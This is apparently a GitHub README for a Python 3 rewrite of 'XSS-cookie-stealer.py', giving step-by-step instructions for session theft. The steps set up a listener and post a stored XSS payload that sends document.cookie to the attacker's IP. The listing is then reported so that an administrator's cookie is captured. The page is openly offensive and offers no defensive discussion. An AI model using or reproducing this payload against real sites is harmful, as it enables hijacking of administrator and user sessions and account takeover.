# XSS-cookie-stealer.py
# I recreated it with Python 3 because it is a very old repository. The original author of this work is @R0B1NL1N at github.com.

Welcome to the XSS-cookie-stealer.py wiki!

This is my circumstance, and I have the option of reporting to the admins, but there are a lot of other uses as well.

# How to use
1- Change IP address in the script.

![image](https://user-images.githubusercontent.com/102862377/203699668-456c24c0-4f15-4f12-a6c5-166f6089fa44.png)


2- Run the script.

`python3 XSS-cookie-stealer.py`

![image](https://user-images.githubusercontent.com/102862377/203699097-d805bf19-0ced-43f7-a9e6-f2dda7cfa813.png)

3- Create a new listing and enter the exploit script.

`<script>var i=new Image;i.src="http://(Your IP):8888/?"+document.cookie;</scirpt>`

![image](https://user-images.githubusercontent.com/102862377/203699802-2ec5643e-2717-4cd2-ab53-40b8dbf2c8af.png)

4- As soon as we submit, we should see our cookie appear on the http server running on our attack machine:

![image](https://user-images.githubusercontent.com/102862377/203699868-ab19e552-34e9-4aeb-9754-f34ad2b04ccb.png)

5- Let’s now click on the link and report listing to the admins:

![image](https://user-images.githubusercontent.com/102862377/203699911-513801f2-ebae-43fa-8127-80d6a6c56314.png)

6- Click ‘Report’ button and we should see the admin cookie appear on our http server:

![image](https://user-images.githubusercontent.com/102862377/203699989-a56ea191-92a7-4149-9781-6b286573e2a0.png)


